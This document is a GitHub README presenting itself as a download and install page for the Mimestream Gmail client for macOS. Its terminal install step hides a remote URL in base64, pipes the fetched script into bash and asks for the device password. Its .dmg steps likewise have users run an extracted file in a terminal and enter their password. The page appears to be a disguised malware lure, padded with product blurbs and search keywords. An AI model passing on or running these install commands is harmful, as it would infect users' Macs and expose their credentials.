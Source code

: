 # Mimestream Mac Download

![Mimestream Screenshot](https://images.ifun.de/wp-content/uploads/2021/10/mimestream-feature.jpg)

[![Download Now](https://img.shields.io/badge/Download--Now-Mimestream-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Mimestream?

Mimestream is a modern and efficient email client for macOS that’s purpose-built for Gmail. Unlike traditional email clients, Mimestream uses the Gmail API directly (instead of IMAP), providing a fast, responsive, and fully integrated Gmail experience while maintaining the elegance and speed of a native macOS app.

With support for multiple accounts, custom Gmail labels, category tabs (like Primary, Social, Promotions), and Gmail's powerful search, Mimestream brings all the Gmail features you love into a beautiful and seamless macOS interface. It also supports offline use, smart notifications, and email aliases, making it a professional-grade option for power users.

Its native Swift-based design means it's fast, energy efficient, and looks great on both Intel and Apple Silicon Macs. Whether you're a casual user or rely on Gmail for work, Mimestream is designed to help you stay productive with minimal distractions and maximum control.

![Mimestream Screenshot](https://mimestream.com/assets/images/site-preview.png)

---

## 🌟 Key Features & Benefits

- 💌 Native Gmail Integration — Built on Gmail API, not IMAP  
- 🔖 Full Label Support — Create and manage Gmail labels with ease  
- 📧 Unified Inbox — Manage multiple Gmail accounts in one place  
- ⚡ Lightning Fast — Built in Swift for speed and efficiency  
- 🚀 Optimized for Apple Silicon — M1/M2/M3 chip native support  
- 📶 Offline Access — Read and draft emails without a connection  
- 🧼 Clean macOS Interface — Feels right at home on your Mac  
- 🔔 Smart Notifications — Get alerts only when it matters  

---

## 🖥️ System Requirements

- macOS 12 Monterey or later  
- Intel or Apple Silicon (M1, M2, M3)  
- Gmail account required  
- 150 MB free disk space  

---

## 🏷️ Keywords

mimestream mac, mimestream, mimestream app, mimestream download, mimestream for mac, mimestream review

